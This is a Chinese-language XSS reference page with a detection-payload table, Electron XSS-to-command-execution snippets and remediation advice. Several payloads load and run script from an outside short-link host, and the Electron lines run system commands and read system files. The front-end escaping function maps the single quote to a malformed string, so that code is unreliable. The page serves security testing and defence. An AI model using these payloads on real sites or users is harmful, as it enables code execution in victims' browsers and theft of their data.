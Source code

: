 ## 0x01 XSS漏洞简介

### 1.1 漏洞场景

​	跨站脚本攻击是指恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

## 0x02 XSS漏洞检测

### 2.1 Payload

| 标签     | 测试脚本                                                     |
| -------- | ------------------------------------------------------------ |
| svg      | `<svg onload=eval($.get("//t.cn/R5iR4NG")) style=display:none>`<br/>`<svg onload=a=decodeURIComponent("http%3A%2F%2Ft.cn%2FR5iR4NG");$.getScript(a) style=display:none>` |
| img      | `<img src=x style=display:none onerror=s=createElement('script');body.appendChild(s);s.src='//t.cn/R5iR4NG';>` |
| isindex  | `<isindex type=image src=x onerror=alert(/xss/)>`            |
| a        | `<a title='x' onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px></a>` |
| select   | `<select autofocus onfocus=alert(document.domain)>`          |
| textarea | `<textarea autofocus onfocus=alert(document.domain)>`        |
| keygen   | `<keygen autofocus onfocus=alert(document.domain)>`          |
| body     | `<body onload=prompt(document.domain);>`                     |
| embed    | `<embed src="javascript:alert(document.domain)"/>`           |
| video    | `<video><source onerror="javascript:alert(document.domain)">` |
| object   | `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">` |
| iframe   | `<iframe src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=>` |
| meta     | `<meta http-equiv="refresh" content="0; url=data:text/html,%3Cscript%3Ealert%281%29%3C%2fscript%3E">` |
| b        | `<b oncut = alert()>`                                        |
| script   | `<script src=test.jpg>`                                      |
| script   | `<script>z="alert"</script><br/><script>z=z+"(123)"</script><br/><script>eval(z)</script>` |
| div      | `<div id="x">alert%28document.cookie%29%3B</div><br/><p>eval(unescape(x.innerHTML));</p>` |
| script   | `<script>window.open('https://vulnerablesite.com/users/eval(atob(window.name))','YWxlcnQoL3hzcy8p')</script>` |
| script   | `<script>eval.call`${'prompt\x281)'}`</script>`              |
| svg      | `<svg><script>&#112;&#114;&#111;&#109;&#112;&#116;&#40;&#47;&#120;&#115;&#115;&#47;&#41;</script>` |

### 2.2 Electron

​	electron是一个流行的桌面应用开发框架，允许开发者使用web技术和nodejs结合来迅速开发桌面应用，因为引入了JS，所以也引入了XSS漏洞。

- 系统命令

```
<script>require("child_process").exec("calc.exe")</script>
```

- 读写文件

```
<script>require('fs').writeFile('hack.txt','xxxx')</script>
<script>require('fs').readFileSync('c:\\windows\\php.ini')</script>
```

## 0x03 XSS漏洞修复

### 3.1 服务端过滤

- Java：https://owasp.org/www-project-java-html-sanitizer/
- .NET：https://github.com/mganss/HtmlSanitizer
- Golang：https://github.com/microcosm-cc/bluemonday
- PHP：http://htmlpurifier.org/
- Python：https://pypi.python.org/pypi/bleach
- Django框架（Python）：https://github.com/shaowenchen/django-xss-cleaner

### 3.2 前端过滤

```
$.ajax({
      url:'/test.php',
        type:'post',
        dataType:'text',
        cache:false,
        async:false,
      })
      .done(function(data){
        $("body").append(xssCheck(data));
      })
      
function xssCheck(str,reg){
  return str ? str.replace(reg ||/[&<">'](?:(amp|lt|quot|gt|#39|nbsp|#d+);)?/g,function (a, b) {
    if(b){
      return a;
    }else{
      return{
        '<':'&lt;',
        '&':'&amp;',
        '"':'&quot;',
        '>':'&gt;',
        "'":''',
      }[a]
    }
  }): '';
}
```

